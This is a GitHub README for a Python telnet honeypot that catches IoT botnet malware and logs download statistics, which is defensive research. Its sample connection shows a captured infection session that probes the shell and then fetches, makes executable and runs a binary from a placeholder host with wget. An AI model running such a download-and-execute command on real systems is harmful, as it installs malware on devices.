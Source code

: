 # Telnet IoT honeypot

Newer changes are in branch client-server, howerver, running it is not documented.

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

Statistics of the downloaded binaries and corresponding
Urls/Telnet connections may be created via the generated
SQLite database.

All binaries are also uploaded to virustotal.com, if not
already present.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit 

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
